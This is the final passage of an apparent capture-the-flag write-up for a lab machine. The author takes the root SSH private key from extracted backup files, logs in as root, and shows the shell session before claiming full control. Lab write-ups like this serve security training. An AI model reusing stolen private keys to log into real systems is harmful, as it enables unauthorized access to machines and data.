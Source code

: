 The files of `/root` are extracted under `/home/martin/backups/root`. We don't own the system just yet. Instead of capturing the `root.txt` flag found on the extracted files, we will use the private key under `.ssh/id_rsa` to directly login as `root` to the system, via SSH.

```bash
martin@code:~/backups$ cd root/.ssh
martin@code:~/backups/root/.ssh$ ls
authorized_keys  id_rsa
martin@code:~/backups/root/.ssh$ ssh root@10.129.245.206 -i id_rsa
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun 03 Aug 2025 01:15:34 PM UTC

  System load:           0.03
  Usage of /:            51.6% of 5.33GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             239
  Users logged in:       1
  IPv4 address for eth0: 10.129.245.206
  IPv6 address for eth0: dead:beef::250:56ff:fe94:27f7


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Aug 3 13:15:35 2025 from 10.129.245.206
root@code:~# 
 
```

The system is ours and the `root.txt` flag is found under `/root`.

---

## Vulnerabilities
